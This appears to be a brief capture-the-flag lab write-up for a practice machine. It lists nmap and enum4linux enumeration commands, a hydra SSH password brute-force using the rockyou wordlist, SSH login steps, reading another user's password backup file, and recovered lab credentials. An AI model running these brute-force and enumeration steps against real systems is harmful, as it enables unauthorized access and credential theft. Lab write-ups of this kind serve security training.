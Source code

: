 #### Machine IP: 10.10.135.87
<br>
Enum:

`nmap -sV -sC -oA nmap/bpt 10.10.135.87`
<br>
<br>

Ports:
    <br>`hydra -l jan -P ~/Documents/wordlists/rockyou.txt ssh://10.10.135.87`<br><br>
    Ssh 22 -> Atacking[ brute forcing with hydra - User: jan:armando ]<br>
    Http 80
    139
    445

Dirbuster enum:<br>
    `http://10.10.135.87/development/`<br><br>


```
Loggin with ssh: ssh jan@ipmachine -p 22 : armando
Cd ..
Ls
Cd kay
vi pass.bak
```
<br>
<br>
For creds use:<br>
`enum4linux -v 10.10.135.87`<br><br>

User creds:<br>
    jan:armando<br>
    key:heresareallystrongpasswordthatfollowsthepasswordpolicy$$



